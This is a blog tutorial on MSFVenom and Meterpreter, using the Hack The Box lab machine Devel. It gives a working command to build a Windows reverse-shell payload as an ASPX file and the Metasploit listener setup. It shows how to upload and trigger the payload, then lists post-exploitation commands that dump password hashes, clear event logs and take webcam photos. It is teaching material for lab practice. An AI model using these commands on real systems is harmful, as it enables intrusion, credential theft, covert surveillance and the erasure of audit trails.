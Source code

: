 ```yaml
---
title:      "MSFVenom and Meterpreter: The basics"
date:       2018-09-11 12:20:20 +0100
tags:       HackTheBox
Category:   Cybersecurity
comment:    header sizes are 2000x750
header:
  image:	/assets/images/2018-09-11-msfvenom/header.jpg
  teaser:	/assets/images/2018-09-11-msfvenom/header.jpg
  caption:	"Photo credit: [**Unsplash**](https://unsplash.com)"
---
```


I just recently successfully gained root (or rather, Administrator, because it's a Windows box) on the **Devel** machine in [Hack The Box](https://hackthebox.eu).

The machine itself is very easy, and there are lots of writeups on it, I'm sure, so this won't be another one. However, one thing it made really clear and simple was learning **MSFVenom** and getting to use reverse shells in a realistic scenario. Therefore, I'll use the machine as an example to illustrate the usage of MSFVenom.

In this case, the machine is running IIS, with an FTP server that allows anonymous uploads, and an HTTP server running on the traditional port 80.

This is where MSFVenom comes in handy: We can upload arbitrary files and trigger their execution.

Some information:
- The victim's IP is `10.10.10.5`
- Our IP is `x.y.z.w`
- We have no firewalls blocking inbound connections (this is a requirement if you want to have reverse shells connect back to you)

## The reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.y.z.w LPORT=1337 -f aspx > devel.aspx
```

This:
- Sets the payload to be a reverse TCP meterpreter shell (for Metasploit), for Windows machines. You can query the full list of payloads by running `$ msfvenom -l payloads`
- Sets our IP to be `x.y.z.w` (the victim machine must be able to reach us on that IP)
- Sets our listening port to be `1337` (remember this, you'll need it to configure the listening end of the reverse shell: Metasploit)
- Sets the format to be ASPX, C#
- Creates a file called `devel.aspx` in the current directory

## Configure Metasploit

Now we have to configure Metasploit to listen to remote connections, using the same parametres given to MSFVenom.

(The following commands are to be executed sequentially in a Metasploit Console)

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost x.y.z.w
set lport 1337
set ExitOnSession false
exploit -j
```

Metasploit is now ready to accept connections to port `1337` and the specified IP address (in this case `x.y.z.w`)

## Triggering the reverse shell

In this case, now that we have the `devel.aspx` file, we have to upload it via FTP. Because the FTP is pointing to the same directory as the HTTP server, we can just drop it there, and then navigate to `http://10.10.10.5/devel.aspx`. A blank page will appear, but if we did everything correctly, a new line will appear in the listening console. It will say something similar to: `Meterpreter session 1 opened (x.y.z.w:1337 -> 10.10.10.5:49160)`.

At this point, we can list sessions by issuing `sessions -l` at the Metasploit console, and attach to the newly opened session by running `sessions <SESSION ID>`, in this case, the session ID is 1, so `sessions 1` attaches correctly to the shell.

## Meterpreter

Now we're in a Meterpreter Windows session, we can issue the following commands (note that to specify the folder separator in Meterpreter, you must use double slashes `//` and not the standard Windows backslash `\`):
- `ls` or `dir`: lists the files and directories
- `cd`: changes directory, behaves just like Linux systems
- `pwd`: shows the full path for the current directory, similar to Linux as well
- `background`: sends the Meterpreter session to the background, and resumes your Metasploit session, you can always return by reattaching the session with `sessions <SESSION ID>`
- `cat`: prints text files to the screen, like the Linux command of the same name
- `download` or `upload`: respectively download or upload files from/to the machine
- `getuid`: returns the user the reverse shell is running with, useful to let us know if we gained Administrator access
- `clearev`: clears the *Application*, *System* and *Security* logs for the machine
- `execute`: runs an arbitrary command given as the argument
- `hashdump`: dumps the contents of the *SAM* database
- `idletime`: displays how much time has passed since the user was active
- `ipconfig`: retrieves the network interface configuration
- `ps`: like the Linux tool of the same name, displays a list of running processes in the victim machine
- `shell`: invokes a standard shell
- `webcam_list`: displays currently connected and configured web cams on the victim machine
- `webcam_snap`: takes a picture from a connected camera, and saves it to the current working directory with a random filename


